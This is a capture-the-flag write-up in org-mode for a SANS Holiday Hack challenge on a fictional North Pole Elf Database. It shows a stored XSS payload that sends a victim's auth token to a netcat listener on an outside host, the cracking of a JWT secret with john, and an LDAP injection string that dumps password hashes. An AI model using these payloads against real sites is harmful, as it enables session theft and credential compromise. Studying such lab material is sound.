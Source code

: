 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Fetch the letter to Santa from the North Pole Elf Database at
http://edb.northpolechristmastown.com. Who wrote the letter?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Do we know anything about this system already?

Hints:

List any useful hints here.

Blog Posts:

Are any of these useful?

- Putting My Zero Cents In: Using the Free Tier on Amazon Web Services
  (EC2)
  https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2
  Spinning up an EC2 instance, but also a lot of emphasis on how to use
  SSH keys.
- Your Pokemon Guide for Essential SQL Pen Test Commands
  https://pen-testing.sans.org/blog/2017/12/09/your-pokemon-guide-for-essential-sql-pen-test-commands
  SQL basics (SELECT, WHERE, wildcards, ORDER BY, GROUP BY, COUNT)
- Exploiting XXE Vulnerabilities in IIS/.NET
  https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities
  Including remote content in XML
- Why You Need the Skills to Tinker with Publicly Released Exploit Code
  https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and
  CVE-2017-9805 Code: https://github.com/chrisjd20/cve-2017-9805.py
- Go To The Head Of The Class: LD\_PRELOAD For The Win
  https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win
- A Spot of Tee
  https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted
  bash shell, and bypassing the I/O restriction with tee
- Understanding and Exploiting Web-based LDAP
  https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap
  LDAP syntax, LDAP injection
- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning
  masscan

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

What are we trying to accomplish?

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Describe the thought process that we tried here. How were we able to use
the hints or the blog posts?

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Summarize the reference solution that we found

My solution:

This was a multi stage exploit.

The first stage was XSS via the support request.

First I attempted to steal document.cookie, but then i realized the cookie
didn't help, and one needed the auth token mentioned in the html/javascript
source:

#+BEGIN_SRC js
    token = localStorage.getItem("np-auth");
#+END_SRC


on l2s:

#+BEGIN_SRC
$ nc -v -l -p 4444 on l2s
#+END_SRC

#+BEGIN_SRC
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+localStorage.getItem('np-auth');\"></img>"
#+END_SRC

At that point we had the token I stored in [output/jwt](output/jwt) and used jwt2john.py and john to crack it.  The makefile in output shows the process:

#+BEGIN_SRC
jwt.john: ../tools/jwt2john.py jwt
	python3 ../tools/jwt2john.py $(shell cat jwt) > jwt.john

john.txt: jwt.john
	john  --format=HMAC-SHA256 jwt.john
	john  --format=HMAC-SHA256 jwt.john -show > john.txt
#+END_SRC

Once logged in, [tools/edb.py](tools/edb.py) was used to exploit the ldap injection vuln using the search string

#+BEGIN_SRC
    name=))(department=it)(|(cn=
#+END_SRC

and by passing =*= as the attributes query field. With that query and all
attributes it is able to grab the entire ldap database including password
hashes.

The letter page requires a valid password, convienently a google search for santas md5 password quickly finds a valid password.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Any other, easier solutions?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

Do we know what issue(s) people were running into?

Cracking the JWT key was tricky without the propper tools.
My first python based solution was broken.  A fixed version was too slow.
running it using pypy helped a bit, but the pyjwt library is not optimized for cracking.
https://github.com/lmammino/jwt-cracker was a bit faster, but john outperformed
everything.  The hard part was finding out how to use john to crack a jwt secret key.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
